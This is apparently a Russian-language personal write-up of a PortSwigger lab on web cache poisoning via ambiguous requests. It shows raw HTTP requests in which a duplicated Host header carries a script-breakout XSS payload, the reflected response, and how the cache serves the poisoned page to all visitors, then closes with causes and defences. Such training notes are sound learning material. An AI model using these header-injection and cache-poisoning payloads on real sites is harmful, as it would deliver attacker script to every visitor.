


###### web cache poisoning via ambiguous requests

> это атака, при которой злоумышленник заставляет кеш сохранить вредоносный ответ, используя неоднозначные запросы, где разные компоненты системы (кеш и бэкенд) по-разному интерпретируют один и тот же запрос

суть:
>- Кеш использует один метод определения ключа кеша (например, смотрит на Host header)
>- Бэкенд использует другой метод (например, смотрит на X-Forwarded-Host)
>- Атакующий отправляет запрос, который для кеша выглядит как запрос к валидному домену, а бэкенд обрабатывает его с вредоносным значением

короче, это очень похоже на HTTP_Request _Smuggling, когда клиент и бек по разному считывают заголовки  длинны запроса и чанки, только в случае с `web cache poisoning `  речь идет про заголовки хоста!!!
 
Пример:  
```http
GET / HTTP/1.1  
Host: vulnerable.com 
X-Forwarded-Host: attacker.com
```

Кеш сохраняет ответ для `vulnerable.com`, но бэкенд генерирует ответ на основе `attacker.com`, включая в него вредоносный код

В результате все пользователи, которые получают страницу из кеша, получают скомпрометированный ответ


------------

лаба https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests

задание:
	нужно отравить кэш, чтобы домашняя страница выполняла alert(document.cookie) в браузере жертвы

жертва регулярно посещает главн стр 

-------


вот базовый стандартный запрос на главную
```http
GET / HTTP/1.1
Host: 0a6c007c04e0b3e3852ca862001a00bc.h1-web-security-academy.net
Cookie: session=IZFUZTaQEfv4sd13fkCn3IfP7RGX8BJp; _lab=46%7cMCwCFGw2jqLc9iIdjIrnlsuakYbaVgDYAhRsNI3r2CnrLPZPglpqlWNme3ZPPoVpU%2fR0PtCbTGGGozHwD%2b2XkELo%2bhkavr2ebunVP4QyndHMpvibMRBqXkQW9D4JaTzi0FmLoqHRn%2ftkURFI4spZsCJ%2b4eBbnjdhPYFxQ3l7IK%2fErl55hic%3d
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

в ответе кстати есть парметр `Cache-Control: max-age=30`
то есть кеш 30 доступен

----------
полагаю, сперва нужно научиться вызывать алерт через заголовки хоста

```http
Host
X-Forwarded-Host  
X-Host  
X-Forwarded-Server  
X-HTTP-Host-Override  
Forwarded
```

и если нужно вызвать алерт, значит - скорее всего через xss

значит поищу отражение заголовков в html страницы

-------

я не стал церимониться и бахнул все хедеры сразу
```http
GET / HTTP/1.1
Host: 0a6c007c04e0b3e3852ca862001a00bc.h1-web-security-academy.net
X-Forwarded-Host: fff 
X-Host: sss  
X-Forwarded-Server: ccc
X-HTTP-Host-Override: zzz
Forwarded: xxx
Host: yyy
Cookie: session=IZFUZTaQEfv4sd13fkCn3IfP7RGX8BJp; _lab=46%7cMCwCFGw2jqLc9iIdjIrnlsuakYbaVgDYAhRsNI3r2CnrLPZPglpqlWNme3ZPPoVpU%2fR0PtCbTGGGozHwD%2b2XkELo%2bhkavr2ebunVP4QyndHMpvibMRBqXkQW9D4JaTzi0FmLoqHRn%2ftkURFI4spZsCJ%2b4eBbnjdhPYFxQ3l7IK%2fErl55hic%3d
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```


и тут же нашел отражение его в html страницы
```html
<script type="text/javascript" src="//yyy/resources/js/tracking.js"></script>
```




осталось лишь просто попробовать выйти за пределы тегов

------
пробую
```html
    "</script><script>alert(document.cookie)</script><script>
```

и вот что получается!
я вырвался из старого тега и откр новый

запрос
```html
GET / HTTP/1.1
Host: 0a6c007c04e0b3e3852ca862001a00bc.h1-web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```

ответ:
и что удивительно, нет валидации спец символов

```html
       <script type="text/javascript" src="//"</script>
       
       <script>alert(document.cookie)</script>
       
       <script>/resources/js/tracking.js"></script>
```




-------

но только вот вопрос, как это кешировать или, че делать то с эти вообще...

-------

то есть нужно - отправить запрос жертве с моими праметрами этими всеми и тогда у нее в кеш попадет мой скрипт 

короче - лаба решилась после моего запроса сама.....
через эксплойт сервер не пришлось ничего отправлять

и вот что ПРОИЗОШЛО:

```q
КЕШ браузера смотрит только на Host header, чтобы сформировать ключ

Бэкенд же при генерации ответа использует значение второго Host!

И когда я отправил запрос с двумя Host и пейлоадом, кеш браузера сохранил ответ по ключу, в который входит первый Host - валидный домен лабы. 
А вот бэкенд взял для генерации ответа второй Host с моим XSS!

то есть я передал на сервер два host, один я получил обратно, а второй остался висеть на сервере на 30 сек.

---------------------------------------------------------------------

Теперь, когда любой другой пользователь запрашивает главную страницу с обычным Host: лаба.com, кеш смотрит на ключ, видит, что для этого ключа уже есть сохранённый ответ, и отдаёт его — с твоим скриптом. Жертве не нужно отправлять мой запрос, как при CSRF. Она просто заходит на сайт обычным способом

Cache-Control: max-age=30       означает, что кешированный ответ будет жить 30 секунд. Если за это время 100 000 человек зайдут на сайт, все они получат отравленную страницу. После 30 секунд кеш очистится, и нужно будет отравлять заново


смысл атаки в том, что достаточно одного запроса от атакующего, чтобы отравить кеш для всех пользователей на определённое время. Никаких дополнительных действий от жертвы не требуется
```

#### вывод + защита

Зачем вообще нужны X-Forwarded-Host и подобные заголовки?

Когда сайт работает через reverse proxy или балансировщиком `(типа Nginx, AWS CloudFront, Cloudflare)`, 
запрос от пользователя приходит сначала на прокси, 
а потом прокси шлет его на бэкенд

Для бэкенда реальный Host - это адрес прокси, а не домен, который ввел пользователь. 
Чтобы бэкенд знал, какой сайт запросили, прокси добавляет X-Forwarded-Host с оригинальным доменом
>Это нормальная и нужная практика

==Почему это становится дырой?==

Потому что ""гениальные"" разработчики и админы:

- Оставляют поддержку X-Forwarded-Host включенной, даже когда сайт стоит напрямую без прокси
- Не настраивают белые списки доверенных прокси
- Используют эти заголовки для принятия решений о безопасности (как в предыдущей лабе с localhost)
- Кешируют ответы, не учитывая, что заголовок может быть подменен

>По сути, это та же проблема, что и с доверием к X-Forwarded-For. Технология полезная, но если ее включают бездумно и не валидируют откуда пришел заголовок, она превращается в дыру

---------
